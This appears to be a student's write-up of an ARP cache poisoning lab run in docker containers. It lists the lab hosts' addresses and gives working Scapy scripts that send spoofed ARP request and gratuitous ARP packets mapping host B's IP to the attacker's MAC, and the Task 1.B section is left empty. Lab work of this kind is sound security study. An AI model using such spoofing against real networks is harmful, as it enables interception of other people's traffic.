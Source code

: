 Setup:

No acces to GUI -> Send file from local machine to VM

docker-compose build
docker-compose up
docker ps
![alt text](image.png)

Logging into all three containers

finding out Mac-Adress via: ipconfig
Mac Address and IPs

IP Address
 
A: 10.9.0.5
B: 10.9.0.6
M: 10.9.0.105
 
 MAC Adress

A: 02:42:0a:09:00:05
B: 02:42:0a:09:00:06
M: 02:42:0a:09:00:69

Task 1.A (using ARP request). On host M, construct an ARP request packet to map B’s IP address
to M’s MAC address. Send the packet to A and check whether the attack is successful or not.

#!/usr/bin/env python3
from scapy.all import *
 
E = Ether()
 
E.dst = "02:42:0a:09:00:05" #A MAC address
E.src = "02:42:0a:09:00:69" #M MAC address
 
A = ARP()
A.op    = 1                     # 1 for ARP request; 2 for ARP reply
A.hwsrc = "02:42:0a:09:00:69"   #M MAC address
A.psrc  = "10.9.0.6"            #B IP address
 
A.hwdst = "02:42:0a:09:00:05"   #A MAC address
A.pdst  = "10.9.0.5"            #A IP address
 
pkt = E/A
sendp(pkt)

![alt text](image-1.png)



Task 1.B (using ARP reply). On host M, construct an ARP reply packet to map B’s IP address to
M’s MAC address. Send the packet to A and check whether the attack is successful or not.



Task 1.C (using ARP gratuitous message). On host M, construct an ARP gratuitous packet, and use
it to map B’s IP address to M’s MAC address. Please launch the attack under the same two scenarios
as those described in Task 1.B.
ARP gratuitous packet is a special ARP request packet. It is used when a host machine needs to
update outdated information on all the other machine’s ARP cache. The gratuitous ARP packet has
the following characteristics:
– The source and destination IP addresses are the same, and they are the IP address of the host
issuing the gratuitous ARP.
– The destination MAC addresses in both ARP header and Ethernet header are the broadcast MAC
address (ff:ff:ff:ff:ff:ff).
– No reply is expected.


#!/usr/bin/env python3
from scapy.all import *
 
E = Ether()
 
E.dst = "ff:ff:ff:ff:ff:ff" #A MAC address
E.src = "02:42:0a:09:00:69" #M MAC address
 
A = ARP()
A.op    = 1                     # 1 for ARP request; 2 for ARP reply
A.hwsrc = "02:42:0a:09:00:69"   #M MAC address
A.psrc  = "10.9.0.6"            #B IP address
 
A.hwdst = "ff:ff:ff:ff:ff:ff"   #A MAC address
A.pdst  = "10.9.0.6"            #A IP address
 
pkt = E/A
sendp(pkt)

